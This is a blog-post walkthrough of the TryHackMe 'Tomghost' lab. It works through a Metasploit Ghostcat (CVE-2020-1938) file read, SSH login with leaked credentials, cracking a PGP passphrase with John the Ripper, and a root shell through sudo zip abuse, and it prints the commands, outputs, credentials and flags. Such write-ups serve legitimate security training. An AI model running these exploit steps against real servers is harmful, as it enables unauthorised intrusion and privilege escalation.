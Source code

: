 ```yaml
---
layout: post
title: Tomghost
subtitle: TryHackMe - Tomghost
description: Enumerate services, exploit Ghostcat CVE, decrypt credentials, and escalate privileges with sudo zip to capture flags.
image: https://assets.tryhackme.com/additional/imgur/fR0jVuM.png
optimized_image: https://assets.tryhackme.com/additional/imgur/fR0jVuM.png
tags:
  - TryHackMe
  - Ghostcat
  - CVE-2020-1938
  - PGP Decryption
  - Sudo Zip Privesc
  - Find Flags
author: Mustafa Altayeb
date: 2025-10-28 00:00
paginate: true
---
```


# Tomghost

![Tomghost](https://assets.tryhackme.com/additional/imgur/fR0jVuM.png)

## Objectives
1. **Scan with Nmap** to identify open ports and services.
2. **Exploit Ghostcat (CVE-2020-1938)** on AJP port 8009 to extract credentials from `/WEB-INF/web.xml`.
3. **Gain initial SSH access** as user `skyfuck`.
4. **Locate and read the user flag** in `/home/merlin/user.txt`.
5. **Decrypt `credential.pgp`** using the private key `tryhackme.asc` (crack passphrase with John the Ripper).
6. **Switch to user `merlin`** using the decrypted password.
7. **Privilege escalate to root** using `sudo zip` abuse.
8. **Capture the root flag**.

## Enumeration

### Nmap Scan
Perform a comprehensive port scan:

```bash
nmap -sCV -p- -T4 -oA nmap_tomghost 10.10.182.213
```

**Results:**
```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Key Findings:**
- **Port 22**: OpenSSH 7.2p2 (username enumeration possible but not exploited here).
- **Port 8009**: Apache JServ Protocol (AJP) exposed – vulnerable to **Ghostcat (CVE-2020-1938)**.
- **Port 8080**: Apache Tomcat 9.0.30 (outdated version).

## Initial Access

### Exploit Ghostcat with Metasploit
Use the Metasploit module to read sensitive files via AJP:

```bash
msf6 > use auxiliary/admin/http/tomcat_ghostcat
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS 10.10.182.213
msf6 auxiliary(admin/http/tomcat_ghostcat) > set FILENAME /WEB-INF/web.xml
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
```

**Key Excerpt from `web.xml`:**
```
<description>
   Welcome to GhostCat
      skyfuck:8730281lkjlkjdqlksalks
</description>
```

**Credentials Discovered:**
- Username: `skyfuck`
- Password: `8730281lkjlkjdqlksalks`

### SSH Access
Login as `skyfuck`:

```bash
ssh skyfuck@10.10.182.213
```

```
skyfuck@ubuntu:~$ whoami
skyfuck
```

## User Flag
Read the user flag (accessible from `skyfuck`):

```bash
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

## Decrypt Credentials for `merlin`
In `/home/skyfuck/`:

```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

Transfer files to attacker machine:

```bash
# On target
python3 -m http.server 8000

# On attacker
wget http://10.10.182.213:8000/credential.pgp
wget http://10.10.182.213:8000/tryhackme.asc
```

**Crack `tryhackme.asc` passphrase with John:**
```bash
gpg2john tryhackme.asc > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
john --show hash
```
**Passphrase:** `alexandru`

**Decrypt `credential.pgp`:**
```bash
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```
**Output:**
```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j#
```

**Switch to `merlin`:**
```bash
skyfuck@ubuntu:~$ su merlin
Password: asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j#
merlin@ubuntu:~$
```

## Privilege Escalation
Enumerate sudo permissions:

```bash
merlin@ubuntu:~$ sudo -l
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

**Exploit `sudo zip` (GTFOBins):**
```bash
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
adding: etc/hosts (deflated 31%)
# whoami
root
```

## Root Flag
```bash
# cat /root/root.txt
THM{Z1P_1S_FAKE}
```

**Finished! Happy Hacking!**

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

**Follow me:**
- [LinkedIn](https://www.linkedin.com/in/t4t4r1s/)
- [X](https://x.com/T4T4R1S)
```